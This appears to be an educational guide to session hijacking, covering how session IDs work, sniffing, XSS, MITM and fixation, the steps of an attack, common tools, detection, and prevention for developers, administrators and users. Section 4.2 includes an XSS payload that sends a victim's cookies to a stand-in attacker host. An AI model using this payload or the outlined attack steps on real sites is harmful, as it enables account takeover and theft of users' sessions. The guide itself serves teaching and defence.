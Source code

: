 Session Hijacking – Complete Guide

1. What is Session Hijacking?

       Session hijacking is a cyberattack where an attacker takes over an active communication session between two systems—typically a user and a web application—by stealing or predicting the session ID.
       Once successful, the attacker can impersonate the legitimate user and perform actions as them without needing to log in.

2. How Sessions Work

       1) Session: A temporary interaction between a client and a server after authentication.
       2) Session ID: A unique token (usually stored in cookies, URL parameters, or HTTP headers) used to track the user’s session.
       3) Session Management: The process of creating, maintaining, and terminating sessions securely.

   When a user logs in:

       1) They provide valid credentials.
       2) The server creates a session ID.
       3) The session ID is sent to the client.
       4) The client sends the ID with every request.
       5) If the session ID is stolen, the attacker bypasses authentication.

3. Types of Session Hijacking

       A. Active Session Hijacking --- The attacker actively takes over a session while it’s still in progress.
          a) Example: Using a man-in-the-middle (MITM) attack to inject commands.
       B. Passive Session Hijacking --- The attacker silently monitors and captures traffic to extract the session ID.
          a) Example: Packet sniffing on unencrypted Wi-Fi.

4. Methods of Session Hijacking

       4.1. Session Sniffing
            a) Capturing unencrypted network packets to extract session IDs.
            b) Tools: Wireshark, tcpdump, Ettercap.

       4.2. Cross-Site Scripting (XSS)
            a) Injecting malicious JavaScript to steal cookies containing session IDs.
            b) Example: <script>document.location='http://attacker.com?cookie='+document.cookie</script>

       4.3. Man-in-the-Middle (MITM)
            a) Intercepting communication between client and server.
            b) Tools: Bettercap, Cain & Abel, MITMf.

       4.4. Session Fixation
            a) Attacker sets the victim’s session ID before login, then reuses it after authentication.

       4.5. Predictable Session IDs
            a) If a web application generates weak or guessable session IDs, the attacker can guess them.

       4.6. Malware / Keyloggers
            a) Stealing session tokens from browser storage or memory.

       4.7. Sidejacking
            a) Hijacking HTTP sessions over unsecured Wi-Fi using packet sniffers.
            b) Example: Firesheep browser extension.

5. Steps of a Session Hijacking Attack

       1) Preparation – Set up sniffing or interception tools.
       2) Session ID Capture – Extract the session token from cookies, headers, or URLs.
       3) Session Injection – Use the stolen session ID to craft requests.
       4) Privilege Escalation – Attempt actions as the victim (view data, perform transactions).
       5) Maintaining Access – Possibly create a backdoor or persist with stolen cookies.

6. Tools for Session Hijacking

       1) Wireshark – Packet analysis
       2) Ettercap – MITM attacks
       3) Bettercap – Advanced MITM
       4) Burp Suite – Intercept and manipulate HTTP traffic
       5) Cain & Abel – Sniffing and session token grabbing
       6) Firesheep – Sidejacking (HTTP session hijacking)

7. Detection of Session Hijacking

       1) Abnormal IP Changes: Session suddenly accessed from different locations.
       2) Multiple Devices: Same session used from two devices at once.
       3) High Volume Requests: Automated actions in a short time frame.
       4) IDS/IPS Alerts: Detection of suspicious packet patterns.

8. Prevention & Countermeasures

       8.1. For Web Developers
            a) Use HTTPS for all sessions.
            b) Implement Secure, HttpOnly, and SameSite cookie flags.
            c) Regenerate session IDs after login.
            d) Use unpredictable and cryptographically secure session IDs.
            e) Implement session timeout & inactivity logout.
            f) Detect anomalies in session behavior.

       8.2. For Network Administrators
            a) Use VPNs for internal access.
            b) Enforce TLS/SSL encryption.
            c) Deploy Intrusion Detection/Prevention Systems.
            d) Segment networks to limit sniffing.

       8.3. For End Users
            a) Avoid public Wi-Fi for sensitive logins.
            b) Use VPNs when possible.
            c) Log out from accounts after use.
            d) Disable browser features that store passwords and cookies insecurely.


